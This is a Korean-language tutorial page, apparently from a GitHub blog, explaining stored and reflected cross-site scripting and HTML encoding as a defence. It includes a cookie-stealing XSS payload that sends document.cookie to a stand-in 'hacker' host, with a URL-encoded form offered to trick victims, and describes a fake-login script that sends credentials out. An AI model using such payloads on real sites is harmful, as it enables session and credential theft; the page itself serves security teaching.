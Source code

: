 >**OWASP (Open Web Application Security Project)**  
>오픈소스 웹 애플리케이션 보안 프로젝트  
>웹에 대한 정보 노출, 악성 파일 및 스크립트, 보안 취약점등을 연구하며, 4년마다 10대 웹 애플리케이션의 취약점 (OWASP top 10)을 발표함

# XSS 공격 종류
## Stored XSS
![storedXss](https://user-images.githubusercontent.com/15958325/118353976-c9827980-b5a3-11eb-9369-ec442251e6d9.png)   
취약점이 있는 웹 사이트 서버에 영구적으로 악성 스크립트를 저장시키는 방법입니다.  

악성스크립트를 저장시킨 페이지에 사용자가 접속하게 된다면 자동으로 스크립트가 실행되어 공격이 실행 되게 합니다.     

게시글 같은 곳에 `<script> </script>`구문을 써서 포스팅하면 해당 게시글을 들어갈때마다 `script`구문이 실행되게 됩니다.  

>ex) **Stealing User Credentials - Fake login**  
> 1. script구문으로 가짜 로그인창을 생성해서 포스팅
> 2. 해당 게시글을 들어갈때 가짜로그인창이 팝업
> 3. 로그인정보를 넣고 로그인버튼을 누르면 id와 pw가 외부 사이트로 발송(공격자의사이트)  

## Reflected XSS
사용자에게 입력받은 값을 서버에서 되돌려주는 곳에서 발생합니다.  
악성스크립트를 삽입해둔 URL을 다른사용자에게 링크로 보내는데,  
그대로 보내면 안속으니까 url 인코딩을 해서 보내면 속을 확률 up!  

이렇게 사용자가 쉽게 url을 확인할 수 없게 변형시키고 이메일이나 다른 웹사이트등에 클릭을 유도하도록 하는 공격기법입니다.  

>ex) **Stealing Cookie**  
>~~~
>http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>  
>~~~
>를 이런식으로 인코딩->  
>~~~
>http://testweb?search%3d%3cscript%3elocation.href(%22http%3a%2f%2fhacker%2fcookie.php%3fvalue%3d%22%2bdocument.cookie)%3b%3c%2fscript%3e%0d%0a
>~~~
>
>스크립트내용은 testweb에 접속한 유저의 쿠키정보를 hacker사이트로 보내는 역할


# XSS 예방하기!
## 1. HTML Encoding
HTML태그들을 escape문자들로 치환하는 기법입니다.  
![image](https://user-images.githubusercontent.com/15958325/118353520-9808ae80-b5a1-11eb-9126-6788776ee31a.png)  
  
HTML인코딩을 사용하게 되면,  
~~~
<script><alert>Hello World!</alert> </script>
~~~
이런 코드가  
~~~
&lt;script&gt;&lt;alert&gt;Hello&nbsp;World!&lt;/alert&gt;&lt;/script&gt;
~~~
위와 같이 읽히게 됩니다.  
그래서 script가 포함된 plain text가 server단으로 넘어오지 않기 때문에 XSS를 예방할 수 있습니다.  
